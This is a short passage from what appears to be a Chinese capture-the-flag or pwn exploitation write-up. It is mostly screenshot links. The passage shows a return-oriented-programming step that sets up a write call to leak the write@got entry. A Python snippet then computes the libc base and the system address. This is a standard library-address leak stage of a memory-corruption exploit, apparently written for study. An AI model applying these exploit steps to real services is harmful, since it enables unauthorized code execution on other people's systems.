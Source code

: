 [![](assets/1700442742-75f357a1466f4352afaa5997a5caf694.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183749-5a5c3578-8535-1.png)

执行完 g2

[![](assets/1700442742-09191894c478ec1efe919044be1f45b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183753-5d4870bc-8535-1.png)

[![](assets/1700442742-8fecfdc0a49d00e19b14a1a15970d6c6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183757-5f4f39e0-8535-1.png)

布置好了`write(1,write@got.plt,0x8)`​

跳转到 x3 -> write，开始 leak

[![](assets/1700442742-3c5001454652c044d1d31441a422969a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183801-618b118e-8535-1.png)

```bash
write_addr = uu64(r(6))
li('write_addr'+hex(write_addr))
libcbase = write_addr - libc.sym['write']
li('libcbase'+hex(libcbase))
system = libcbase + libc.sym['system']
li('system'+hex(system))
```
